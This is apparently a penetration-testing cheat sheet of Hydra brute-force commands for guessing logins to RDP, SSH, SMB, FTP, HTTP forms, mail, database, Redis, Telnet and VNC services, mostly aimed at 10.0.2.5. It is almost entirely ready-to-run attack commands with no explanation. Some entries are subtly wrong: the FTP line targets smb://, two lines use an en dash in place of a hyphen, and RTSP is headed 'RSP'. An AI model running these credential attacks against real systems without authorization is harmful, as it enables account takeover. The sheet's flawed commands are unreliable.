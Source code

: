 # Hydra

### GUI

```
xhydra
```

### RDP

```
hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V
```

### SSH

```
hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
```

### SMB

```
hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V
```

### FTP

```
hydra -l root -P passwords.txt -f smb://10.0.2.5 -V
```

### HTTP Basic Auth

```
hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
```

### HTTP POST

```
# HTTP Post
hydra -L users.txt -P password.txt 10.0.2.5 http-post-form
"/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login
name or password is incorrect" -V
```

### IMAP

```
# IMAP
hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
```

### MySQL

```
# MySQL
hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V
```

### POP

```
# POP
hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
```

### Redis

```
# Redis
hydra –P password.txt redis://10.0.2.5 -V
```

### Other Examples

<pre><code>Rexec
hydra -l root -P password.txt rexec://10.0.2.5 -V

Rlogin
hydra -l root -P password.txt rlogin://10.0.2.5 -V

RSH
hydra -L username.txt rsh://10.0.2.5 -V

RSP
hydra -l root -P passwords.txt &#x3C;IP> rtsp

SMTP
hydra -l &#x3C;username> -P /path/to/passwords.txt &#x3C;IP> smtp -V
hydra -l &#x3C;username> -P /path/to/passwords.txt -s 587 &#x3C;IP> -S -v -V
[[Port]] 587 for SMTP with SSL

Telnet
hydra -l root -P passwords.txt [-t 32] &#x3C;IP> telnet
<strong>
</strong><strong>VNC
</strong>hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s &#x3C;PORT>
&#x3C;IP> vnc
</code></pre>
